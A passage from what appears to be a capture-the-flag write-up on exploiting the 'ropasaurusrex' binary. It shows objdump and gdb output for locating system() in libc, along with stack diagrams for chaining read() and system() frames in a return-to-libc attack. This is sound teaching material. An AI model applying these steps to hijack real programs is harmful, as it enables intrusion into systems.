 And <tt>libc.so.6</tt> contains the <tt>system()</tt> function:

```

<span class="lnr">1 </span>$ objdump <span class="Special">-T</span> /lib/i686/cmov/libc.so.6 | <span class="Statement">grep</span> system
<span class="lnr">2 </span><span class="Constant">000f5470</span> g    DF .text  <span class="Constant">00000042</span>  GLIBC_2.0   svcerr_systemerr
<span class="lnr">3 </span><span class="Constant">00039450</span> g    DF .text  <span class="Constant">0000007d</span>  GLIBC_PRIVATE __libc_system
<span class="lnr">4 </span><span class="Constant">00039450</span>  w   DF .text  <span class="Constant">0000007d</span>  GLIBC_2.0   system
```

We can figure out the address where <tt>system()</tt> ends up loaded in ropasaurusrex in our debugger:

```

<span class="lnr">1 </span>$ gdb <span class="Special">--quiet</span> ./ropasaurusrex core
<span class="lnr">2 </span><span class="Statement">[</span>...<span class="Statement">]</span>
<span class="lnr">3 </span>Program terminated with signal <span class="Constant">11</span>, Segmentation fault.
<span class="lnr">4 </span><span class="Comment">#0  0x43434343 in ?? ()</span>
<span class="lnr">5 </span><span class="PreProc">(</span><span class="Special">gdb</span><span class="PreProc">)</span> x/x system
<span class="lnr">6 </span>0xb7ec2450 <span class="Statement"><</span>system<span class="Statement">></span>:    0x890cec83
```

Because <tt>system()</tt> only takes one argument, building the stackframe is pretty easy:

```

+----------------------+
|         ...          | - doesn't matter, other funcs will go here
+----------------------+

+----------------------+ <-- Start of system()'s stack frame
|      void *arg       | - our buffer, 0x08049530
+----------------------+
|   [return address]   | - where 'system' will return
+----------------------+
|         ...          | - doesn't matter, system() will use for locals
+----------------------+
```

Now if we stack this on top of our <tt>read()</tt> frame, things are looking pretty good:

```

+----------------------+
|         ...          |
+----------------------+

+----------------------+ <-- Start of system()'s stack frame
|      void *arg       |
+----------------------+
|   [return address]   |
+----------------------+

+----------------------+ <-- Start of read()'s frame
|     size_t count     |
+----------------------+
|      void *buf       |
+----------------------+
|        int fd        |
+----------------------+
```